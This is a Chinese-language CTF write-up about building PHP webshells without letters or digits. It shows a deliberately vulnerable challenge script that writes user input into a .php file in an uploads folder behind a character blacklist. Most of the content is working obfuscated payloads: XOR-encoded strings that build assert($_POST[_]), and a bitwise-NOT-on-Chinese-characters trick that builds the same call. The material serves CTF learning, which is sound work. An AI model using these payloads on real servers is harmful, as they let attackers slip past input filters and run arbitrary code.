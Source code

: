 ### 源码
```php
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL | E_STRICT);
if(!isset($_GET['c'])){
   show_source(__FILE__);
   die();
}
function rand_string( $length ) {
   $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";    
   $size = strlen( $chars );
   $str = '';
   for($i = 0; $i < $length; $i++) {
	   $str .= $chars[ rand( 0, $size - 1 ) ];
   }
   return $str;
}
$data = $_GET['c'];
$black_list = array(' ', '!', '"', '#', '%', '&', '*', ',', '-', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', '<', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '\\', '^', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '|', '~');
foreach ($black_list as $b) {
   if (stripos($data, $b) !== false){
	   die("WAF!");
   }
}
$filename=rand_string(0x20).'.php';
$folder='uploads/';
$full_filename = $folder.$filename;
if(file_put_contents($full_filename, '<?php '.$data)){
   echo "<a href='".$full_filename."'>WebShell</a></br>";
   echo "Enjoy your webshell~";
}else{
   echo "Some thing wrong...";
}
```
### 漏洞成因
**哪有什么漏洞，就是他妈的php特性而已**
- 看p神的文章：[https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#_4)
#### 方法一
这是最简单、最容易想到的方法。在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。
得到如下的结果（因为其中存在很多不可打印字符，所以我用url编码表示了
- 两个字母，通过异或来编码webshell
```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
#### 方法二
- 跟汉字取反
![](Pasted%20image%2020230514190332.png)
和方法一有异曲同工之妙，唯一差异就是，方法一使用的是位运算里的“异或”，方法二使用的是位运算里的“取反”。
**方法二利用的是UTF-8编码的某个汉字**，并将其中某个字符取出来，比如`'`和`'{2}`的结果是`"\x8c"`，其取反即为字母s：
```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```
具体查看：[无字母WebShell](无字母WebShell.md)
### 异或
[常规攻击（普通异或绕过）](无字母WebShell.md#常规攻击（普通异或绕过）)
### 中文
[常规攻击（中文方法）（二）](无字母WebShell.md#常规攻击（中文方法）（二）)
```php
<?php
function info(){
    echo "hack";
}
$i++;
$a = "又";
$_ .= ~($a{$i});
$_ .= ~($a{$i});
$a = "门";
$_ .= ~($a{$i});
$a = "又";
$_ .= ~($a{$i});
$_ .= ~($a{$i});
$a = "斤";
$_ = ~($a{$i});
$a = "呈";
$_ .= ~($a{$i});
$a = "白";
$_ .= ~($a{$i});
$a = "吉";
$_ .= ~($a{$i});
$_();
```
### 参考
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#_4)
+ [php特殊webshell(无数字,字母,位运算)](http://www.jianshu.com/p/d23d4b1358f2)
+ [一道好玩的webshell题](https://chybeta.github.io/2017/07/15/%E4%B8%80%E9%81%93%E5%A5%BD%E7%8E%A9%E7%9A%84webshell%E9%A2%98/)